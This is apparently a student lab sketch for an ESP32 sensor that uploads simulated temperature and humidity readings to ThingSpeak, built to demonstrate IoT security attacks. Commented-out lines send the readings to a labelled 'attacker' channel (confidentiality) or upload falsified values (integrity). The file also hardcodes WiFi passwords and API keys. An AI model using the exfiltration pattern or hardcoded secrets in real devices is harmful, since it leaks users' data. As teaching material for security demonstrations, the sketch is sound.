# Temperature-and-Humidityy-Sensor-
For ESP32 Device On Arduino
#include <DHT.h>
#include <ESPping.h>
#include <ThingSpeak.h>
#define DHTPIN 4 
#define DHTTYPE DHT22 
DHT dht(DHTPIN, DHTTYPE);
float temperature, humidity; //initialise temperature/humidity variables to record
WiFiClient client;
unsigned long myChannelNumber =  2215009;//Your Channel Number (Without Brackets)
const char* myWriteAPIKey = "Y59SZPERQY3GEIP7"; //Your Write API Key
unsigned long evilChannelNumber = 2230832;//the attacker's channel number
const char* evilWriteAPIKey = "6FTXZBZ7JDLY6RD1";//the attacker's write API key
const char *SSID = "fyp";
const char *PASSWORD = "Fyp123456";
//const char *SSID = "fyprivate";
//const char *PASSWORD = "fyp7890"; //setting up a private network for the IoT device to not be in the same network as everyone else, in order to swap, uncomment these 2 lines while commenting the 2 above.
String projectTitle = "C300 - Implementing Secure IOT Arduino Laboratory";
String projectDesc = "FYP for Lee Zhang Hui, Sidhant Ram Deepak and Chua Wei En Fabian Matthias";
#include "Identification.h"

const float tempMin = 34.00;
const float tempMax = 36.00;
const float humMin = 85.00;
const float humMax = 95.00;
//the above four lines define constants for min and max temperatures and humidities for simulated (randomised) sensor input

void setup() {
Serial.begin(115200);
dht.begin();
ThingSpeak.begin(client);
otaInit(); //comment out this line to disable over-the-air uploads, the entire function is in Identification.h file that is included. 
}

void loop() { //run repeatedly
delay(2500); //start with a 2.5s delay

// temperature = dht.readTemperature();
// humidity = dht.readHumidity();
//the above two ones read temperature and humidity from the sensor and store the values into the respective variables

srand(time(0)); //initialises random number generation using a seed value derived from current system time in seconds
temperature = tempMin + (float)((rand() % ((int)(tempMax - tempMin)*100)))/100; //generates a temperature value from 34.00 to 35.99
temperature = round(temperature * 100)/100; //rounds to 2dp
humidity = humMin + (float)((rand() % ((int)(humMax - humMin)*1000)))/1000; //generates a humidity value from 85.00 to 95.00
humidity = round(humidity * 100)/100; //rounds to 2dp
//the above 5 lines give random temperature and humidity values (to two decimal places) for testing. To restore sensor values, comment out the five lines above, and uncomment out the lines for the sensor acquisition.

//hardcodedtemperature = 10;
//hardcodedhumidity = 30;
//the above 2 lines hardcode constant temperature and humidity values. To restore sensor values, comment out the two lines above.


Serial.println("Temperature is " + String(temperature) + "°C");
Serial.println("Humidity is " + String(humidity) + "%");
//the above 2 lines print out the temperature/humidity outputs

//Serial.println("Temperature is " + String(hardcodedtemperature) + "°C");
//Serial.println("Humidity is " + String(hardcodedhumidity) + "%");
//the above 2 lines print out the hard-coded temperature/humidity outputs (comment out the above 2 lines to not display the "correct" temperature/humidity values)
//(integrity)

//Serial.println(WiFi.status());
//Serial.println(WiFi.localIP());
//the above 2 lines print out the wifi status and IP of the device (probably doesnt need to be done repeatedly, will fix)
//Serial.println("---");
//necessary to perform string conversion above. the dashes are used to separate the outputs.
delay(3000);
//wait 3 seconds before performing the loop again

//WIFI ping
//IPAddress ip (184, 106, 153, 149); // The remote ip to ping (Replace IP address)

// if (Ping.ping(ip)) {
//   Serial.println("Ping works");
// } else {
//   Serial.println("Ping not working");
// }

//the above lines are useful to ascertain if the ThingSpeak IP is pingable. They can be commented out after troubleshooting.

// Serial.println(Ping.ping(ip));

ThingSpeak.writeField(myChannelNumber,1,temperature, myWriteAPIKey);
ThingSpeak.writeField(myChannelNumber,2,humidity, myWriteAPIKey); 
//these 2 lines upload the temperature/humidity values to the cloud
//you can comment out the above 2 lines too to not transmit any values to the cloud (availability)
delay(100);

//ThingSpeak.writeField(evilChannelNumber,1, temperature, evilWriteAPIKey);
//ThingSpeak.writeField(evilChannelNumber,2, humidity, evilWriteAPIKey);
//these 2 lines upload the temperature/humidity values to the attacker's cloud (confidentiality)


//ThingSpeak.writeField(MyChannelNumber,1,hardcodedtemperature, myWriteAPIKey);
//ThingSpeak.writeField(MyChannelNumber,1,hardcodedhumidity, myWriteAPIKey);
//these 2 lines  upload the hardcoded values to the cloud(comment out the above lines that send the 'correct' temperature/humidity values to the cloud) (integrity)
}
